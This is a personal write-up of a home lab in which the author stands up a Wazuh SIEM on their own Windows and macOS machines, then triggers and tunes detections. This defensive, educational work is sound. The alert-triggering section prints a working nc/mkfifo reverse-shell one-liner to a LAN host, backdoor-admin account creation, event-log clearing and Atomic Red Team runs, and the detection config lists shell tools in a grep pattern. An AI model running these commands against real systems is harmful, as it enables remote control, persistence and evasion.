










# :material-radar: Wazuh SIEM home lab

<div class="sj-meta" markdown>

:material-flask-outline: **Type:** Home lab

:material-server-network: **Estate:** Windows 11 + Windows 10 + macOS (real hardware)

:material-tools: **Stack:** Wazuh 4.14.5 + Docker / WSL2

</div>

!!! quicklinks "Quick links"

    - [:material-file-document-outline: The formal report](../../../portfolio/home-labs/wazuh/index.md)
    - [:material-book-open-page-variant-outline: Wazuh docs (v4.14.5)](https://documentation.wazuh.com/4.14/)

This is a very much informal, behind-the-scenes companion to the [formal report](../../../portfolio/home-labs/wazuh/index.md). The formal report treats each alert like a real analyst would. This page is my usual "omg this is cool" write-up, everything I've done and learned while trying to do this thing. It was a lot of fun, I did notice that the configuration and triggering alerts felt more natural to me than the analytics part, but maybe I just need more practice.

Needless to say, but just in case - nothing here is malicious. Everything was run against my own machines on my own LAN, and torn down afterwards... Saying that I did hit Anthropic's cybersecurity guardrails (lol), but I applied for their [Cyber Verification Program (CVP)](https://claude.com/form/cyber-use-case) and... was approved for it!

Before you read any further, the crazy terminal commands here are courtesy of Claude. I never run anything until I know every single bit included in the commands (a million of questions for Claude and google), but I'm not proficient with this enough to make complex commands independently yet.

---

## :material-hammer-wrench: What I built { data-toc-label="What I built" }

A working Wazuh SIEM/XDR on a real three-machine estate:

- **Windows 11 desktop** - runs the Wazuh server (in Docker) and is also agent 001.
- **Windows 10 desktop** - agent 002.
- **MacBook Air** - agent 003.

Two separate ideas I had to figure out first:

- The **SIEM itself** runs in Docker containers on the Win11 box (manager + indexer + dashboard).
- The **agents** are small native services on each machine that ship logs and events to the manager. Agents are not containers and do not need virtualisation.



??? note "Why the SIEM needs virtualisation but the agents don't"
    Wazuh's server images are Linux images, and Windows has a Windows kernel, so there is no Linux kernel for them to run on. Windows supplies one: WSL2 is a real Linux kernel running in a lightweight Hyper-V VM, and Docker puts the Linux containers in there. A VM needs CPU virtualisation (VT-x / AMD-V). The agents are native binaries, so none of this applies to them.
    
    I had to look into it because my Win10 box has virtualisation disabled because I sometimes play Lineage2 on an official server and it doesn't allow VM/virtualisation stuff on lol. This was totally fine because Win10 only ever needed to be an agent.

---

## :material-rocket-launch-outline: Standing it up { data-toc-label="Standing it up" }

### Prerequisite check

Docker Desktop needs WSL2, WSL2 needs a hypervisor. I knew my Win10 had virtualisation disabled, but wasn't sure about my main PC (Win11) so I had to check first:

```powershell
Get-ComputerInfo -Property "HyperV*" | Format-List
systeminfo | Select-String -Pattern "Hyper-V|Virtualization"
wsl --status ; wsl -l -v
docker --version ; docker compose version
docker info --format '{{.OSType}} / {{.MemTotal}} bytes / {{.NCPU}} CPUs'
```

Virtualisation was on (yay!). But `systeminfo` said "A hypervisor has been detected. Features required for Hyper-V will not be displayed", I wasn't sure what it meant for me exactly, so had to investigate. Turned out it just meant a hypervisor was already running so it couldn't report on whether one could run.

### Blocker: Docker Desktop would not start

It refused to launch with a "Group membership check" error - my user was not in the local `docker-users` group. That group controls access to the Docker named pipe. Fix, in an Administrator PowerShell:

```powershell
Add-LocalGroupMember -Group "docker-users" -Member "$env:USERNAME"
```

TBH I wasn't surprised as I mess around with my main PC all the time so inconsistent or broken setup across different users is nothing new... One day I will do a full reset!

NB: you have to fully sign out or reboot afterwards, because Windows bakes your group memberships into your access token at logon and does not refresh them mid-session (locking/unlocking doesn't refresh this).

### Deploy the stack

I used the official `wazuh-docker` single-node deployment, pinned to a released version:

```powershell
git clone https://github.com/wazuh/wazuh-docker.git -b v4.14.5 --config core.autocrlf=input
cd wazuh-docker\single-node
docker compose -f generate-indexer-certs.yml run --rm generator
docker compose up -d
```

Two things I set on purpose:

- **`-b v4.14.5`** pins a released tag, so the lab is reproducible (makes total sense, but I was super excited and a little bit overwhelmed so when Claude suggested it, I went for it immediatelly)
- **`--config core.autocrlf=input`** stops Git on Windows rewriting line endings to CRLF. The repo has shell scripts that run inside Linux containers, and Linux chokes on a trailing `\r` after `#!/bin/bash` with a misleading "no such file or directory". `input` leaves them alone.

The certificate step spins up a throwaway container that acts as a private certificate authority and mints a TLS cert for each component. All internal traffic uses mutual TLS.

??? note "Certificates notes"
    Asymmetric crypto gives you a key pair: a private key (secret) and a public key (shared). But a public key on its own is just a number, it proves no identity. A certificate fixes that: it is a file saying "this name has this public key", signed by a Certificate Authority you trust. On the public web that CA is DigiCert or Let's Encrypt. Here there is no public CA, so the generator makes its own root CA and every component is told to trust it. That is also why the browser warns on `https://localhost`: it does not trust our homemade CA, and it is right not to. Mutual TLS means both sides check each other's certificate, not just the client checking the server. For a SIEM that matters, because the indexer holds every alert from every machine. Fascinating.

??? note "vm.max_map_count - the setting that most often kills this stack"
    The indexer is an OpenSearch fork. It memory-maps thousands of index files, and Linux caps that at 65530 by default. The indexer needs 262144 or it dies on boot with an error that never mentions memory. The setting lives in the WSL2 Linux kernel, not Windows and not the container. It turned out that the recent Docker Desktop sets it correctly, but I'm glad Claude prompted me to check this (`docker run --rm alpine sysctl vm.max_map_count`).

??? note "A red herring: 'find: command not found'"
    The certificate generator printed `find: command not found` and looked like it had failed. It had not. `find` is missing from that minimal image, but it is only used in a late cleanup step, after the certificates were already written. All 12 `.pem` files were present. 
    
    I took it as a lesson - even if there is an error present in the output, it is not the same as a failed outcome (check the artifact, not just the log). Super basic yes, but this SIEM task had so many unknowns for me so there was not much to grasp on for stability/confidence haha.

Once it was up, the dashboard is at `https://localhost` (default login `admin` / `SecretPassword`, which is itself a finding - see below).

---

## :material-account-multiple-plus-outline: Enrolling the agents { data-toc-label="Enrolling the agents" }

I enrolled the Win11 box first (locally), then Win10 and the MacBook, using the dashboard's "Deploy new agent" wizard to get a version-correct install command each time.





### Finding: Docker punched a hole in my Windows Firewall

I expected the two remote agents to fail to connect until I opened ports 1514/1515 in the firewall. They connected with no firewall changes at all. It turns out Docker Desktop installs its own inbound allow rule for its backend process, scoped to both Private and Public profiles, so every port it publishes is reachable regardless of port-level firewall policy. I verified it:

```powershell
Get-NetFirewallRule -Direction Inbound -Enabled True |
  Where-Object { $_.DisplayName -match 'Docker|vpnkit|backend' }
```

I found it very cheeky. Claude said it's a well-known and contested function of Docker Desktop, the usual "convenience vs security" debate. But I was amazed this was allowed TBH. Probably beginner's naivity.

---

## :material-target-account: Making the alerts fire (the tasty offensive bit) { data-toc-label="Making the alerts fire" }

This is the part that belongs in a learning write-up rather than the analyst report... It's probably the reason why I decided to make a separate one. For each alert, here is exactly how I triggered it.

### 1. EICAR (a safe fake virus)

The EICAR string is a harmless 68-byte test file that every antivirus is contractually obliged to detect as malware. How cool is that that there is an agreement among everyone relevant to detect this file as malware for testing purposes?

So... I wrote it into a folder I had told Wazuh to watch:

```powershell
$eicar = 'X5O!P%@AP[4\PZX54(P^)7CC)7}$' + 'EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*'
Set-Content -Path "C:\wazuh-lab\eicar_test.txt" -Value $eicar
```



Defender quarantined it instantly, so no Wazuh alert fired. I started investigating...

??? danger "The AV/FIM blind spot"
    Wazuh's File Integrity Monitoring tried to open the EICAR file to hash it, and Defender blocked it (the agent log said "the file contains a virus"). No read, no hash, no FIM event. Two controls did what they were made to do, but ended up making - what felt like - a blind spot (no Wazuh alert). The fix was to make Wazuh listen to Defender's own event channel, which it does not collect by default (why?..):

    ```xml
    <localfile>
      <location>Microsoft-Windows-Windows Defender/Operational</location>
      <log_format>eventchannel</log_format>
    </localfile>
    ```

    After that, the malware detection came through as a level-12 alert (rule 62123) after I retriggered it. 
    
    NB: a SIEM only sees what you configure it to collect. Default config is only a starting point.



### 2. Create-then-elevate backdoor (my first custom rule)

I wanted some tasty scenarios, it was for a portfolio afterall. I'm still learning so I can't necessarily showcase technical skills yet (in this field), but perhaps I could show my analytical thinking, so I wanted something more than "oopsie, a bad file was downloaded".

The attack: create a local account, then add it to Administrators (persistence and privilege escalation backdoor). Windows Home does not audit account management by default (why?..), so I turned that on first (a blue-team step in its own right):

```powershell
auditpol /set /subcategory:"User Account Management" /success:enable /failure:enable
net user bdtest LabPass123! /add
net localgroup administrators bdtest /add
```



The built-in rules alert on each event separately, but do not connect them. So I wrote a custom correlation rule that fires only when the same logon session creates an account and then promotes it to admin within five minutes.

This was where I actually learned detection engineering, mostly by screwing it up of course (can I blame Claude?):

??? note "The debugging journey"
    - `frequency="1"` was rejected. The manager refused to load the ruleset: "Invalid frequency: 1. Must be higher than 1." The minimum is 2, and in an A-then-B correlation Wazuh counts both events, so `frequency="2"` is correct.
    - The correlation rule swallows its own component. I expected three alerts (create, elevate, backdoor) and only got two. It turns out a composite rule replaces the alert of the event that triggers it - documented behaviour, to reduce alert fatigue. So the elevate and the backdoor flag are the same alert.
    - Silencing the built-ins. The built-in account rules were firing alongside mine, so I overrode them to level 0 (they still match, so my child rules keep working, but they no longer alert). One clean custom alert per event.
    - The language-independent SID. I match the Administrators group by its SID `S-1-5-32-544`, not the word "Administrators", so the rule survives a non-English Windows.

### 3. Brute force (repeated failed logins)

On the Win10 box I enabled logon auditing, then locked the screen and typed the wrong password several times:

```powershell
auditpol /set /subcategory:"Logon" /success:enable /failure:enable
```



Each failure fired rule 60122. Cheeky Windows protection prevented me from triggering the higher-severity brute-force correlation rule on Wazuh by locking the logon and displaying the "Windows locked the screen and forced a restart" message. So I could not reproduce the burst alert by hand, which is an awesome demonstration of why real brute-force attacks target network/API logins, not the interactive lock screen. The OS defends itself (very cool!).

### 4. Reverse shell

A reverse shell is the classic "attacker gains control" moment and probably the biggest thing that blew my mind away when I first learned about it (still remember when and how). The victim connects out to the attacker and hands over a shell. Potato Claude originally suggested to run two terminals on Mac to simulate this, which I was quite surprised about, but I mean I know AI needs help as much as we need AI help haha. Anyway, I did it cross-machine, Win11 as the attacker, Mac as the victim!

Attacker (Win11) - a listener in a throwaway container (which also reuses the Docker-firewall finding, so no manual firewall rule needed... actually, handy now :eyes:):

```powershell
docker run --rm -it -p 4444:4444 alpine nc -l -p 4444
```

Victim (Mac). macOS defaults to `zsh`, and the `bash /dev/tcp` trick is parsed by the current shell, so it fails under `zsh`. I used the portable `nc` + fifo reverse shell instead:

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.0.150 4444 > /tmp/f
```



Typing `whoami` on the Win11 side ran it on the Mac. A Windows box driving a shell on my MacBook. How cool is that?

The detection had to be custom, because macOS has no `auditd` and Wazuh has no built-in reverse-shell rule. I used command monitoring: every 30 seconds the agent runs `lsof` to look for a shell or tool holding an established TCP connection (something that should almost never happen), and a custom rule fires on the result.

??? note "How the macOS reverse-shell detection works"
    Agent config (`/Library/Ossec/etc/ossec.conf`):

    ```xml
    <localfile>
      <log_format>full_command</log_format>
      <command>lsof -nP -iTCP -sTCP:ESTABLISHED | grep -Ei "^(bash|sh|zsh|nc|ncat|python|perl|ruby|socat|php)"</command>
      <alias>reverse_shell_watch</alias>
      <frequency>30</frequency>
    </localfile>
    ```

    Rule (`local_rules.xml`), a child of Wazuh's silent command-monitoring base rule 530:

    ```xml
    <rule id="100200" level="13">
      <if_sid>530</if_sid>
      <match>reverse_shell_watch</match>
      <regex>ESTABLISHED</regex>
      <description>Possible reverse shell (macOS): a shell/interpreter is holding an established outbound TCP connection</description>
      <mitre><id>T1059</id><id>T1071</id></mitre>
    </rule>
    ```

    Limitation: this is polling (30s), so there is a small delay, unlike a network IDS. But the endpoint sees what the wire can't - even if the traffic was encrypted, `nc` still visibly holds the socket :O

### 5. Atomic Red Team

Trying to create my cheeky (semi-malicious) scripts and being flagged by Anthropic, I discovered Atomic Red Team. Why reinvent the wheel? I guess I got overexcited again...

Anyway, Atomic Red Team is a library of ~1,500 small, published, benign scripts, one per MITRE ATT&CK technique. It is how we can test whether our detections work. I ran two on Win10 to build a mini attack chain - persist & hide.

```powershell
# persistence: install a service
Invoke-AtomicTest T1543.003 -TestNumbers 2 -GetPrereqs
Invoke-AtomicTest T1543.003 -TestNumbers 2

# defense evasion: clear the event log
Clear-EventLog -LogName Security
```



Both fired real alerts (rules 61138 and 63103), auto-mapped to ATT&CK. And a bonus finding:

??? note "Defender munched the attacker's toolkit"
    The log-clearing atomics (`T1070.001`/`.002`) were missing from the downloaded library. `Get-MpThreatDetection` showed the reason behind it - Defender flagged the Atomic Red Team `master.zip` three times on download and stripped the most malicious atomics before they could run. 
    
    
    
    Running a red-team toolkit on a machine with live AV is itself a test of the AV :D... And Defender won! I kind of feel a bit more safe now (... beginner's naivity is back?).

---

## :material-lightbulb-on-outline: Findings and lessons { data-toc-label="Findings and lessons" }

The four findings from the formal report, in plainer terms:

1. Docker sneakily opens firewall ports for you. Convenience beat safety in Docker's defaults. Good thing to keep in mind that software's defaults may represent their priorities, not ours :(.
2. AV and FIM created a blind spot together. The most interesting failures live on the border between two controls that both work correctly.
3. The SIEM shipped with default credentials (`admin`/`SecretPassword`) and did not flag itself. A quiet dashboard doesn't mean the system is safe...
4. Defender blocked the red-team toolkit on download (defence in depth!!).

---

## :material-book-open-variant: Concepts I had to learn { data-toc-label="Concepts I had to learn" }

Short notes on most notable things I did not fully understand before this build.

??? note "Daemon vs API vs client"
    A daemon is a long-running background process (Unix's word for a Windows service). It has an API (the requests it agrees to understand). `dockerd` is a daemon that serves a REST API; the `docker` command is just a client for that API. That is why `docker --version` worked before Docker Desktop was running (client answering about itself) but `docker info` failed (client phoning a daemon that did not exist yet).

??? note "Containers vs VMs"
    A container ships userland only (binaries, libraries, config) and borrows the host's kernel. A VM ships its own kernel and pretends to be hardware. So containers are tiny and boot instantly, but need a matching kernel underneath - which on Windows is supplied by the WSL2 Linux VM. Docker on Windows is one VM (heavy, once) plus many containers (light).

??? note "Zero trust, and why internal networks are not safe"
    "We're on the internal network" is a discredited model. The realistic threat is an attacker already inside (a phished laptop, stolen credentials) who moves laterally. Zero trust means assuming the network is already hostile and authenticating every connection on its own merits. It is why the mutual TLS between Wazuh's components matters even inside one host (hello, paranoia).

??? note "Persistent volumes"
    When I turned the PC off, the containers stopped, but every historical alert survived. The containers are disposable, but the indexer stores its data in a Docker volume, which lives outside the container and is re-attached on restart. Ephemeral compute, persistent data. Very cool timing as I was just working on a huge Docker-related task at work too :)
